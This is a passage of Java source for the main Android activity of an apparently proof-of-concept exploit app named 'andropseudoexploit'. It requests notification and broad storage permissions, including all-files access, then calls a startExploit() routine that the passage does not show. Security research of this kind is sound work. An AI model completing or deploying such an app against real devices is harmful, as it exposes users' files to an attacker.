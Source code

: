 **`MainActivity.java`**
```java
package com.lautaro.andropseudoexploit;  
  
import android.Manifest;  
import android.content.Intent;  
import android.content.pm.PackageManager;  
import android.os.Build;  
import android.os.Bundle;  
import android.os.Environment;  
import android.provider.Settings;  
import android.util.Log;  
import android.widget.Toast;  
import androidx.annotation.NonNull;  
import androidx.appcompat.app.AppCompatActivity;  
import androidx.core.app.ActivityCompat;  
import androidx.core.content.ContextCompat;  
import android.net.Uri;  
  
public class MainActivity extends AppCompatActivity {  
    private static final int STORAGE_PERMISSION_CODE = 100;  
    private static final int MANAGE_STORAGE_CODE = 101;  
    private static final int NOTIFICATION_PERMISSION_CODE = 102;  
  
    @Override  
    protected void onCreate(Bundle savedInstanceState) {  
        super.onCreate(savedInstanceState);  
  
        Log.i("PoC", "MainActivity created");  
  
        // get notifications  
        if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.TIRAMISU) {  
            if (ContextCompat.checkSelfPermission(this, Manifest.permission.POST_NOTIFICATIONS)  
                    != PackageManager.PERMISSION_GRANTED) {  
                Log.i("PoC", "Req POST_NOTIFICATIONS...");  
                ActivityCompat.requestPermissions(this,  
                        new String[]{Manifest.permission.POST_NOTIFICATIONS},  
                        NOTIFICATION_PERMISSION_CODE);  
                return; // wait  
            }  
        }  
        // verify perms  
        if (hasStoragePermissions()) {  
            Log.i("PoC", "perms granted, starting exploit");  
            startExploit();  
        } else {  
            Log.i("PoC", "no perms, requesting...");  
            requestStoragePermissions();  
        }  
    }  
    private boolean hasStoragePermissions() {  
        if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.R) {  
            // android 11+  
            return Environment.isExternalStorageManager();  
        } else if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.M) {  
            // android 6-10  
            return ContextCompat.checkSelfPermission(this, Manifest.permission.READ_EXTERNAL_STORAGE) == PackageManager.PERMISSION_GRANTED &&  
                    ContextCompat.checkSelfPermission(this, Manifest.permission.WRITE_EXTERNAL_STORAGE) == PackageManager.PERMISSION_GRANTED;  
        } else {  
            // android <= 5  
            return true;  
        }  
```
